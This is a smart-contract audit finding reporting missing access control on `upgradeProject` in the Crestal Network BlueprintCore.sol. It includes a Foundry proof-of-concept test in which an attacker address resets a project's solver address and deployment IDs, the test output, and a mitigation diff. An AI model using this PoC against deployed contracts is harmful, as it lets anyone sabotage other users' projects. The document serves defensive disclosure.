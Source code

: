 Tart Paisley Cow

High

# Any user can reset project data, causing potential sabotage

### Summary

The `upgradeProject` function in `BlueprintCore.sol` https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198 is public and not overridden in `Blueprint.sol` or `BlueprintV5.sol`. This allows any actor to call it and reset private project variables, including the `solverAddr`, leading to project sabotage.  


### Root Cause

- In `BlueprintCore.sol:198`, the function `upgradeProject` is declared as `public`, allowing any user to call it.  
- The function modifies private state variables, including resetting `solverAddr`, without proper access control.  
- `Blueprint.sol` and `BlueprintV5.sol` inherit from `BlueprintCore`, but do not override or restrict access to `upgradeProject`, leaving it exposed.  

### Internal Pre-conditions

1. The attacker does not need any special role and can be any external address.  
2. There are no restrictions on calling `upgradeProject`.  

### External Pre-conditions

No external dependencies are required for the attack. 

### Attack Path

1. Any user calls `upgradeProject(projectId)`.  
2. The function executes and resets private variables associated with the project, including `solverAddr`.  
3. The project state is forcibly reverted to an initial state, potentially disrupting operations.  


### Impact

- **Sabotage:** An attacker can reset the project state at any time, potentially disrupting project execution and coordination.  
- **Loss of Trust:** Users interacting with the project may experience unexpected behavior, leading to reputational damage.  

### PoC

```solidity

pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "forge-std/Vm.sol";
import "forge-std/console2.sol";
import "forge-std/console.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";

contract BasicTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public dummyAddress;

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize(); // mimic upgradeable contract deploy behavior

        mockToken = new MockERC20();

        // set crestal wallet address
        blueprint.setFeeCollectionWalletAddress(address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578));

        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        workerAddress = address(0x4d6585D89F889F29f77fd7Dd71864269BA1B31df);
        dummyAddress = address(0);
    }

    function generateSignature(bytes32 _projectId, string memory _base64Proposal, string memory _serverURL)
        internal
        view
        returns (bytes memory, address)
    {
        bytes32 digest = blueprint.getRequestDeploymentDigest(_projectId, _base64Proposal, _serverURL);
        uint256 signerPrivateKey = 0xA11CE;
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerPrivateKey, digest);
        return (abi.encodePacked(r, s, v), vm.addr(0xA11CE));
    }


    function test_anyoneCanupgradePrivatevVariables() public {
            
        //Basic mock configuration
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        (bytes memory signature, address signerAddress) = generateSignature(projectId, base64Proposal, serverURL);
        blueprint.addPaymentAddress(address(mockToken));
        blueprint.setCreateAgentTokenCost(address(mockToken), 0);
        emit BlueprintCore.CreateAgent(projectId, "fake", signerAddress, 0, 0);
        blueprint.createAgentWithTokenWithSig(
            projectId, base64Proposal, workerAddress, serverURL, address(mockToken), signature
        );
        bytes32 latestProjId = blueprint.getLatestUserProjectID(signerAddress);
        assertEq(projectId, latestProjId);
        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        (address solverAddr, , bytes32[] memory deploymentIDs) = blueprint.getProjectInfo(projectId);

        console.log("Project ID:", uint256(projectId));
        console.log("Solver Address:", solverAddr);
        console.log("Deployment ID Count:", deploymentIDs.length);


        // Until here lets supouse all ok

        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        //vm.expectRevert();
        blueprint.upgradeProject(projectId); // @note projects mapping is setted as private in BluePrintCore

        (solverAddr, , deploymentIDs) = blueprint.getProjectInfo(projectId);

        console.log("Project ID:", uint256(projectId));
        console.log("Solver Address:", solverAddr);
        console.log("Deployment ID Count:", deploymentIDs.length);


    }
}
```
Output:
```bash
Ran 1 test for test/BasicTest.t.sol:BasicTest
[PASS] test_anyoneCanupgradePrivatevVariables() (gas: 352751)
Logs:
  Project ID: 17703167835528440800640582918210246080639404329522521669469209721743707416960
  Solver Address: 0x0000000000000000000000000000000000000000
  Deployment ID Count: 1
  Project ID: 17703167835528440800640582918210246080639404329522521669469209721743707416960
  Solver Address: 0x0000000000000000000000000000000000000000
  Deployment ID Count: 0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.85ms (1.12ms CPU time)
```

### Mitigation

I suggest declaring the `upgradeProject` function as `virtual` in `BlueprintCore.sol` so that it can be overridden in `BlueprintV5.sol`. This would allow implementing additional access controls, preventing unauthorized calls that reset private project variables.

BlueprintCore:upgradeProject
```diff
...
-    function upgradeProject(bytes32 projectId) public hasProject(projectId) {
+    function upgradeProject(bytes32 projectId) public virtual hasProject(projectId) {
...
```
Add the following function to `BlueprintV5` with the `onlyOwner` modifier

```diff
+    function upgradeProject(bytes32 projectId) public hasProject(projectId) override onlyOwner{
+        super.upgradeProject(projectId);
+    }
```

### Points to consider
This mitigation does not break any other tested cases implemented in test files
